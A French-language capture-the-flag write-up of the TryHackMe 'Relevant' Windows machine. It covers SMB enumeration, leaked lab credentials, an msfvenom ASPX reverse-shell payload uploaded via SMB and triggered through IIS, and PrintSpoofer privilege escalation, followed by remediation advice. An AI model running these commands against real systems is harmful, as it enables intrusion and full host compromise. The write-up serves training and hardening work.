




<h1 align='center'> Relevant </h1>

<br><hr><br>

## Informations:

- Machine : Relevant
- Plateforme : TryHackMe
- IP Address : 10.10.211.20

- Scope :

    - Trouver __user.txt__ (accès initial) & __root.txt__ (privesc)

## Chaîne d'exploitation (résumé)

```
SMB Enumeration
    → Anonymous Write Access (nt4wrksv)
        → Information Disclosure (passwords.txt)
            → Malicious ASPX Upload (IIS)
                → Web Execution (Port 49663)
                    → User Shell
                        → SeImpersonatePrivilege Abuse (PrintSpoofer)
                            → SYSTEM Shell
```

## Test d'Intrusion

### Reconnaissance & Scan

- Scan Nmap
    - cmd: `nmap -p- -sC -sV 10.10.211.20`


- Analyse:
    - 80/tcp : Microsoft IIS 10.0
    - 135 / 139 / 445 : RPC / SMB
    - 3389 : RDP
    - 49663 : Serveur Web
    
    - En voyant un serveur SMB, on relance un scan nmap cette fois avec l'option `--script vuln`
    - On voit que le serveur est vulnérable à la CVE-2017-0143 mais la faille n'est pas exploitable (testée lors du test d'intrusion)
- Analyse SMB
    - Liste des partages : cmd: `smbclient -L //10.10.211.20 -N`

- Partage intéressant identifié : nt4wrksv (Disk)

- Test d’accès anonyme
    - cmd: `smbclient //10.10.211.20/nt4wrksv -N`
    - On y trouve un fichier sensible : passwords.txt

### Analyse 

- On décode en Base64 → identifiants trouvés :
```shell
Bob : !P@$$W0rD!123
Bill : Juw4nnaM4n420696969!$$$
```

- On obtient donc une première fuite d’information via SMB.
- On essaye une connexion RDP à l'aide de cette découverte, qui n'aboutit pas.

### Exploitation : 

- Explication rapide de la méthodologie suivie ensuite :
    - Le partage SMB nt4wrksv est accessible en écriture sans authentification. Ce même répertoire est ensuite exposé par IIS sur le port 49663. Cette mauvaise configuration crée une chaîne directe : un fichier déposé via SMB devient immédiatement accessible (et potentiellement exécutable) depuis le serveur web.
    Cela permet une exécution de code à distance en déposant un fichier interprétable par IIS.
    - IIS interprète nativement les fichiers ASPX (ASP.NET). Lorsqu’un fichier .aspx est appelé via le serveur web, IIS le compile et exécute le code côté serveur.
    En déposant un payload ASPX sur le partage SMB, puis en l’exécutant via IIS, on obtient une RCE.
    Les formats non interprétés (txt, html, exe) seraient simplement servis en téléchargement.
    - Ainsi, le dépôt d’un fichier .aspx via SMB, puis son exécution via IIS, permet d’obtenir une RCE.

- Création du payload ASPX:
    - On génère un reverse shell avec l'extension .aspx à l'aide de metasploit
        - cmd: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=1234 -f aspx -o exploit.aspx`

- On le téléverse ensuite via SMB
    - cmd (dans smbclient): put `exploit.aspx`

- Puis on l'exécute via IIS: 
    - cmd: `curl -v http://10.10.211.20:49663/nt4wrksv/exploit.aspx`
- On obtient ainsi le premier flag 

### Escalade de Privilèges

- On énumère les privilèges avec `whoami /priv`.
    - On se rend directement compte que le token SeImpersonatePrivilege est "enabled"
    
- SeImpersonatePrivilege permet à un processus d’utiliser le token d’un autre utilisateur. Si on réussit à faire interagir un service privilégié (comme un service qui tourne en SYSTEM) avec notre code, on peut alors exécuter nos commandes avec son token.
En pratique, dès qu’on a ce privilège et qu’on peut exécuter du code, on peut élever nos droits jusqu’à NT AUTHORITY\SYSTEM.
- Dans cette machine, on exploite ce mécanisme avec [PrintSpoofer](https://github.com/itm4n/PrintSpoofer), un script qui force un service système à se connecter à notre named pipe, ce qui nous renvoie un token SYSTEM et nous donne un shell avec les privilèges les plus élevés.
- On téléverse donc le script via SMB.
- On y accède depuis le shell obtenu et on l'exécute.


- On obtient ainsi les privilèges voulus et le flag root:
<br>


## Remédiation & Durcissement

Plusieurs mauvaises configurations ont permis l’obtention d’un accès initial, puis une élévation de privilèges jusqu’à SYSTEM. Les mesures suivantes doivent être appliquées pour sécuriser l’hôte :

- Sécurisation de SMB

    - Désactiver l’accès anonyme au partage nt4wrksv.
    - Retirer tous les droits d’écriture pour les utilisateurs non authentifiés
    - Vérifier les ACLs : aucun partage exposé ne doit permettre l’upload libre
    - Activer la signature SMB pour limiter les attaques de type relay et améliorer l’intégrité des échanges.

- Cloisonnement entre SMB et IIS

    - Ne jamais exposer directement un partage SMB comme répertoire web IIS.
    - Désactiver l’exécution des scripts (ASPX, ASP, etc.) dans les répertoires utilisés pour le stockage de fichiers.
    - Restreindre l’accès réseau au port 49663 via le pare-feu si ce service n’a pas vocation à être accessible publiquement.

- Gestion des privilèges Windows

    - Réduire les privilèges des comptes de service IIS : l’Application Pool ne doit pas disposer de SeImpersonatePrivilege sauf nécessité réelle.
    - Utiliser des Virtual Accounts ou des comptes de service dédiés, avec droits strictement limités.
    - Vérifier régulièrement les privilèges accordés et supprimer ceux qui ne sont pas indispensables.

- Mise à jour de sécurité

    - Appliquer les correctifs liés à MS17-010, même si la chaîne d’exploitation ne l’utilise pas directement.
    - Maintenir Windows Server et IIS à jour pour réduire la surface d’attaque.
    - Ces mesures permettent de supprimer la chaîne complète d’exploitation observée (upload → exécution → élévation de privilèges) et de renforcer significativement la sécurité du serveur.